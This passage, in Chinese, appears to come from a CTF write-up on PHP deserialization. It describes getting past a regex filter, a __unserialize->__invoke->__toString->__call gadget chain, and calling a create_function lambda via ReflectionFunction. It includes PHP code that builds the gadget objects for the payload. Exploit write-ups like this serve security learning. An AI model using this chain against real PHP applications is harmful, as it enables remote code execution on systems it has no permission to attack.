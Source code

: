 绕过第一层的正则表达式，可以用`C`，可以参考

- [PHP反序列化中wakeup()绕过总结 – fushulingのblog](https://fushuling.com/index.php/2023/03/11/php反序列化中wakeup绕过总结/)
- [(ฅ>ω<*ฅ) 噫又好啦 ~php反序列化 | 晨曦的个人小站](https://chenxi9981.github.io/php反序列化/)

然后就是标准的流程

```php
__unserialize->__invoke->__toString()->__call
```

最后到达`__call`里面的新建类方法，需要使用使用`ReflectionFunction`类来反射上面的`create_function`的命令

- [PHP: create_function - Manual](https://www.php.net/manual/zh/function.create-function.php)
- [PHP: ReflectionFunction - Manual](https://www.php.net/manual/en/class.reflectionfunction.php)

由于`create_function`并没有设置返回值，那么可以通过调试查看到，会返回一个默认的字符串，并且带有不可见字符

![image-20250526172847870](images/image-20250526172847870.png)

因此通过反射类来调用的时候要注意编码，高版本`PHP`对成员修饰符不敏感，可以直接改`private`为`public`

```php
<?php

class Taki
{
    public $musubi;
    public $magic = "invoke";
}

class Mitsuha
{
    public $memory;
    public $thread;
}

class KatawareDoki
{
    public $soul;
    public $kuchikamizake = "ReflectionFunction";
    public $name = "\00lambda_1";
}
$taki  = new Taki();
$mitsuha = new Mitsuha();
$katawareDoki = new KatawareDoki();

$taki->musubi = $mitsuha;		
$mitsuha->thread = $katawareDoki;		
$katawareDoki->soul = $taki;			

$arr=array("evil"=>$taki);
$o=new ArrayObject($arr);
```
